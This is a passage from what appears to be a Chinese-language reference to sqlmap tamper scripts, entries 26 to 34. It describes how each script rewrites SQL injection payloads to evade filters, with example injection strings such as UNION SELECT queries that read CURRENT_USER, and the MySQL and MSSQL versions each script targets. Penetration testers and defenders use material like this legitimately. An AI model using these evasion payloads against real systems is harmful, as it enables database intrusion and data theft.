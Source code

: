     (26) space2mssqlhash.py 以单行注释”#”和新行替换空格 
    Example: 
    Input: 1 AND 9227=9227 
    Output: 1%23%0A9227=9227 
    Requirement: 
    MSSQL 
    MySQL 

    (27) space2mysqlblank.py 以随机空白字符替换空格 
    Example: 
    Input: SELECT id FROM users 
    Output: SELECT%0Bid%0BFROM%A0users 
    Requirement: 
    MySQL 

    (28) space2mysqldash.py 以单行注释和新行替换空格 
    Example: 
    Input: 1 AND 9227=9227 
    Output: 1--%0AAND--%0A9227=9227 
    Requirement: 
    MySQL 
    MSSQL 

    (29) space2plus.py 以”+”替换空格 
    Example: 
    Input: SELECT id FROM users 
    Output: SELECT+id+FROM+users 

    (30) space2randomblank.py 随机空白字符替换空格 
    Example: 
    Input: SELECT id FROM users 
    Output: SELECT\rid\tFROM\nusers 

    (31) unionalltounion.py 以”union all”替换”union” 
    Example: 
    Input: -1 UNION ALL SELECT 
    Output: -1 UNION SELECT 

    (32) unmagicquotes.py 以”%bf%27”替换单引号，并在结尾添加注释”--” 
    Example: 
    Input: 1' AND 1=1 
    Output: 1%bf%27 AND 1=1--%20 

    (33)versionedkeywords.py 对不是函数的关键字条件注释 
    Example: 
    Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))# 
    Output:  1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#
    Requirement: 
    MySQL 


    (34) versionedmorekeywords.py 对关键字条件注释 
    Example: 
    Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# 
    Output: 1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#
    Requirement: 
    MySQL >= 5.1.13
